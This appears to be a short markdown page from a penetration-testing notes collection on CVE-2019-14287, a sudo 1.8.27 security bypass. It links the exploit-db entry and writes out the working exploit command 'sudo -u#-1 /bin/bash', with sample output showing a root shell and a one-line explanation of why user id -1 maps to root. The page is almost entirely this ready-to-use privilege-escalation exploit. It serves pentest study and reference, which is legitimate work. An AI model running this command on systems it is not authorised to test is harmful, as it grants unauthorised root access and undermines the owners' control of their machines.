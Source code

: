 ```yaml
---
description: CVE 2019-14287
---
```


# Sudo 1.8.27 Security Bypass

{% embed url="https://www.exploit-db.com/exploits/47502" %}

{% code overflow="wrap" %}
```bash
sudo -l

# User hacker may run the following commands on kali:
#    (ALL, !root) /bin/bash 

# Exploit 

sudo -u#-1 /bin/bash

# root@kali:/home/hacker# id
# uid=0(root) gid=1000(hacker) groups=1000(hacker)
# root@kali:/home/hacker#

# Description: 
# Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv 
# -u#-1 returns as 0 which is root's id
```
{% endcode %}
